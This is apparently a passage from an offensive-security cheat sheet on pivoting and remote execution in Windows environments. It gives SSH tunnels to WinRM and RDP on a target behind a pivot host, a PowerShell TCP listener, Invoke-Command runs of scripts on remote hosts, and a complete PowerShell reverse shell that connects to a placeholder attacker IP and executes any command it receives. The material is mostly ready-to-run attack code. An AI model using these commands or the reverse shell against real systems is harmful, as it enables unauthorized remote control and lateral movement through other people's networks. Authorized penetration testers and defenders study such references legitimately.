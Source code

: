 #### PowerShell Remoting Tunnels
- Create a PowerShell Remoting Session Through SSH:
	```powershell
	ssh -L <local_port>:<target_ip>:5985 <user>@<pivot_host>
	Enter-PSSession -ComputerName localhost -Port <local_port> -Credential <domain>\<user>
	```
- Forward a Port Through SSH for RDP:
	```powershell
	ssh -L 3389:<target_ip>:3389 <user>@<pivot_host>
	```

#### Port Forwarding with PowerShell
- Set Up a TCP Port Forwarding:
	```powershell
	$listener = [System.Net.Sockets.TcpListener]::new([System.Net.IPAddress]::Any, <local_port>)
	$listener.Start()
	$listener.AcceptTcpClient()
	```
- Forward a Port Through a Remote Host Using SSH and PowerShell:
	```powershell
	ssh -L <local_port>:<target_ip>:<target_port> <user>@<pivot_host>
	$client = New-Object System.Net.Sockets.TcpClient("<target_ip>", <target_port>)
	```

#### Creating a Reverse Shell
- Establish a PowerShell Reverse Shell:
	```powershell
	$client = New-Object System.Net.Sockets.TcpClient("<attack_ip>", <attack_port>)
	$stream = $client.GetStream()
	$writer = New-Object System.IO.StreamWriter($stream)
	$writer.AutoFlush = $true
	$buffer = New-Object System.Byte[] 1024
	$encoding = New-Object Text.ASCIIEncoding
	
	while (($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
	    $data = $encoding.GetString($buffer, 0, $i)
	    $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
	    $sendback2  = $sendback + "PS " + (pwd).Path + "> "
	    $sendbyte = ($encoding.GetBytes($sendback2))
	    $stream.Write($sendbyte, 0, $sendbyte.Length)
	    $stream.Flush()
	}
	$client.Close()
	```

# Custom Scripts and Automation

#### PowerShell Scripts for Automation
- Run PowerShell Script Remotely Using Invoke-Command:
	```powershell
	Invoke-Command -ComputerName <target_ip> -FilePath "C:\path\to\script.ps1" -Credential <domain>\<user>
	```
- Execute PowerShell Script from a UNC Path:
	```powershell
	Invoke-Command -ScriptBlock { & "\\<target_ip>\share\path\to\script.ps1" } -ComputerName <target_ip> -Credential <domain>\<user>
	```
